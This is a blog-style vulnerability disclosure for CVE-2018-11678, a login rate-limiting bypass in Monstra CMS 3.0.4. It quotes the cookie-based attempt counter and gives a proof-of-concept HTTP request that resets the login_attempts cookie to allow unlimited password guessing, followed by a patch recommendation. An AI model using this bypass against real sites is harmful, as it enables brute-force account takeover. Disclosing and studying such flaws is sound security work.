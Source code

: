 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2018-04-01
date: 2018-04-01
title: "Monstra CMS - 3.0.4 Login Rate Limiting Bypass"
tags: [exploit]
mathjax: false
imagefeature: 
description: "Monstra CMS - 3.0.4 Login Rate Limiting Bypass"
chart: null
---
```



CVE-2018-11678
---

**Exploit Title:** Monstra CMS <= 3.0.4 Login Rate Limiting Bypass
**CVE:**  CVE-2018-11678
**Vendor Homepage:*** http://monstra.org/
**Software Link:** https://bitbucket.org/Awilum/monstra/downloads/monstra-3.0.4.zip
**Discovered by:** Abdillah Muhamad
**Contact:** abdilah.pb@gmail.com
**Website:** https://abdilahrf.github.io
**Category:** webapps
**Platform:** PHP
 
MonstraCMS 3.0.4 Implementing bruteforce protection in login form but we manage to bypass because we can control the cookie value.
 
Vulnerable Code:
 
https://github.com/monstra-cms/monstra/blob/dev/plugins/box/users/users.plugin.php

line 396-400:
```php
        if (Cookie::get('login_attempts') && Cookie::get('login_attempts') >= 5) {
            
            Notification::setNow('error', __('You are banned for 10 minutes. Try again later', 'users'));
        } 
```
line 437-442:

```php
        if (Cookie::get('login_attempts') < 5) {
            $attempts = Cookie::get('login_attempts') + 1;
            Cookie::set('login_attempts', $attempts , 600);
        } else {
            Notification::setNow('error', __('You are banned for 10 minutes. Try again later', 'users'));
        }
```

```php
        if (Cookie::get('login_attempts') < 5) {
            $attempts = Cookie::get('login_attempts') + 1;
            Cookie::set('login_attempts', $attempts , 600);
        } else {
            Notification::setNow('error', __('You are banned for 10 minutes. Try again later', 'users'));
        }
 ```
 
#### Proof of Concept

Steps to Reproduce:
- Always set login_attempts cookie to 0 before send the POST request or if you using burp the cookie will not incrementing.

```
POST /monstra-3.0.4/admin/index.php?id=pages HTTP/1.1
Host: 127.0.0.1
Content-Length: 42
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36
Cookie: PHPSESSID=lsmo61pd53fe8gnmv77uck0c07; _ga=GA1.1.876410326.1527893558; _gid=GA1.1.716559964.1527893558; login_attempts=i%3A0%3B
Connection: close

login=admin&password=[PASSWORD_HERE]&login_submit=Log+In
```
 
#### Recommended Patch
Don't use cookie since we can easily control the value using Session much better

